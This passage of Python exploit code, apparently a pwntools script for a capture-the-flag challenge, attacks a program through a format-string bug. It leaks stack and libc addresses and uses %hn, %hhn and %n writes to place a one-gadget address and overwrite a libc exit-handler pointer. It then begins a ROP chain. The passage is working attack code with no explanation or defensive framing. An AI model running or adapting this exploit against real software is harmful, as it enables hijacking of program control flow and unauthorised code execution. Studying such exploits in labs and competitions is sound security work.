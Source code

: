 ```python
    io.sendline(b"%c" * 46 + b"a" * 2 + b"%hhn" + b"%c" + b"a" * (u16(where[2:4]) - 0x31) + b"%hnstop")
    io.recvuntil(b"stop")
    #io.interactive()
    io.sendline(b"a" * (0xeb78-14) + b"%c" * 14 + b"%hn" + b"a" * (0xfc7+4)  + b"%c" * (31-14) + b"%hhn" + b"%c" * 13 + b"1" * (0xfd3-4) + b"%hhnstop")
    io.recvuntil(b"stop")
    io.sendline(b"%c" * 46 + b"a" * 2 + b"%hhn" + b"%c" + b"a" * (u32(where[4:]) - 0x31) + b"%nstop")
    io.recvuntil(b"stop")

    io.sendline(b"%c" * 46 + b"a" * 2 + b"%hhn" + b"a" * (what- 0x30-560) + b"%c" * 560 + (b"%hn" if size == "short" else b"%n" if size == "int" else b"%hhn")+b"stop")
    io.recvuntil(b"stop")

noloop = False
while 1:
    print(i)
    i += 1
    io = start()
    io.sendline(b"a" * (0xeb78-14) + b"%c" * 14 + b"%hn" + b"a" * 0xfc7  + b"%c" * (31-14) + b"%hhn" + b"%c" * 13 + b"1" * (0xfd3) + b"%hhn"+ b"%p - "*30+b"stop")

    x = b""
    try:
        leaks = io.recvuntil(b'stop').split(b" - ")
        stackLeak = int(leaks[1], 16)
        try:
            libcLeak = int(leaks[28], 16)
        except:
            print(leaks)
            print(hex(stackLeak))
            print(len(leaks))
            print("failed")
            io.interactive()
            exit(0)
        libc = ELF("./libc.2-34.so")
        libc.address = libcLeak - 0x22c000

        print(hex(stackLeak))
        print(hex(libcLeak))
        oneGadget = p64(libc.address + 0xeeccc)
        io.sendline(b"%c" * 46 + b"a" * 2 + b"%hhntest")
        #io.sendline(b"test%p")
        x = io.recvuntil(b"test")
    except:
        pass
    if b"test" in x:

        if args.GDB:
            gdb.attach(io, gdbscript="b *(unsigned long long*)(&printf+198)\nb exit\n")
        oneGadget = p64(libc.address + 0x00000000001242ed)
        writeWhatWhere(stackLeak+0x10, u16(oneGadget[0:2]),start=1)
        writeWhatWhere(stackLeak+0x12, u16(oneGadget[2:4]))
        writeWhatWhere(stackLeak+0x14, u16(oneGadget[4:]), size="int")

        newExitIni = p64(stackLeak+0x10-0x3da0)
        writeWhatWhere(libcLeak + 0x36220, u16(newExitIni[0:2]))
        writeWhatWhere(libcLeak + 0x36222, u16(newExitIni[2:4]))
        writeWhatWhere(libcLeak + 0x36224, u16(newExitIni[4:]), size="int")
        

        rop = ROP(libc)
```